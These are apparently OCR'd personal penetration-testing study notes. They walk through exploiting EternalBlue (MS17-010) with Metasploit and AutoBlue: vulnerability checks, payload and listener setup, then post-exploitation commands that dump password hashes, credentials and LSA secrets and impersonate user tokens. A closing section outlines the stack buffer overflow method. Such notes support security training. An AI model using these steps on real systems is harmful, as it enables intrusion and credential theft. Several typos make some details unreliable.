                         
                * eternal blue: ms17-010
                    `scanner/smb/smb_ms17_010` to see if its vuln to EB
                    `windows/smb/ms17_010_eternalblue` may not work on the
                    first try
                    `getuid`        to see our user
                    `sysinfo`       to see system info
                    `hashdump`      to see users and hashed passwords
                    `shell`     to get a WINDOWS shell
                        `tree /F`       to see ALL files in dirs
                        `type <filename>`       to `cat` a file
                        `route print` to get a route table
                        `arp -a`    to get arp table
                        `netstat -ano`  see whats running
                        `dir`           like `ls` on windows
                        `cd c:\\`       to get to root dir
                    `load kiwi`     the new memicats
                        `help`          for help
                        `creds_all`     will get creds for all currently  
                            logged in 
                        `lsa_dump_sam`
                        `lsa_dump_secrets`
                    `load incognito`
                        `list_tokens -u` used to impersonate a user
                        `"file with spaces"`    to access files with spaces
                    * using `AutoBlue-MS17-010`
                        from the AutoBlue dir in /opt/
                        `python3 eternalblue_checker.py <rhost>`
                            to see if it is patched or not
                        run `shellcode/shell_prep.sh` to make a payload
                        run `.listner_prep.sh`
                            this will start metasploit, open new tab
                        run `python3 eternalblue_exploit7.py <rhost> shellcode/sc_all.bin`
                            sc_all.bin is the msfvenom script we made with
                            shell_prep.sh
                        in metasploit use `sessions` to see and select the
                            session created by AutoBlue
                            
#Buffer Overflows
    Anatomy of Memory
        Kernal  top
        Stack
            ESP (extended Stack Pointer)                            top
            Buffer Space
            EDP (Extended Base Pointer)
            EIP (Extended Instruction Pointer) / Return(pointer) Address     bottom
        Heap
        Data
        Text    bottom
        
        `Stack` - works from top to bottom. When the `stack` gets input charaters
        it fills up from top to bottom. If it is properly sanitized when
        its gets to the bottom of the buffer space it when it gets to 
        `EDP`. In a `buffer overflow` instead of stopping at the bottom of
        the `buffer space` the inputs flow over the `EBP` and into the
        `EIP`. If we end in the `EIP pointer address` at code we want to run. 
            `spiking` - find a vuln part of a program
            `fuzzing` - send a bunch of charaters to see if it breaks
            If it does break, `find the Offset` - where it broke
            Use `offset` to over write the `EIP` 
            Once we have `EIP` controlled we:
                find `band characters` and `right module`
            then we `generate shell code`
            then we get `root!`
            